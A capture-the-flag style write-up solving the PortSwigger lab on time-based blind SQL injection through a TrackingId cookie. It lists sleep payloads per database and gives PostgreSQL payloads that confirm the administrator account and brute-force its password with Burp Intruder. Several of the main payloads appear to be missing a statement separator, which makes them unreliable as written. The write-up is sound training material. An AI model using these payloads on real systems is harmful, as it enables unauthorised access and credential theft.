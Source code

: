 ## Blind SQL injection with time delays and information retrieval

**Title:** Blind SQL injection with time delays and information retrieval. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the `administrator` user.

## Preface

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work. 

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response. 

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true: `'; IF (1=2) WAITFOR DELAY '0:0:10'--` `'; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs does not trigger a delay, because the condition `1=2` is false. The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`


## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought
At first we have to determine which database is using the application. For this we have to use all these payloads:
Database | Payload
-------- | -----
Oracle | dbms_pipe.receive_message(('a'),10)
Microsoft | WAITFOR DELAY '0:0:10'
PostgreSQL | SELECT pg_sleep(10)
MySQL	| SELECT SLEEP(10)

We tried all these payloads & figured out that this web application is using PostgreSQL. Our payload is `TrackingId=LsT'||pg_sleep(10)--`.

Now change it to: `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. Verify that the condition is true, confirming that there is a user called `administrator`.

![poc_admin_user.png](../images/admin_user.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
`TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. After iterating we concluded that the password is 20 characters long.

![poc_password_length.png](../images/password_length.png)

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. Here, we use cluster bomb option with two payload position. `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$payload01$,1)='$payload02$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".

![poc_final.png](../images/poc_final.png)

**Summary:** 
1. Fingerprinting database with `TrackingId=LsT'||pg_sleep(10)--`

2. `administrator` user confirmation with `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

3. Password length determination `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

4. Brute forcing password with `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$payload01$,1)='$payload02$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.


<img src="../images/poc_final.png"  alt="poc_final.png"  width="300"  height="500">
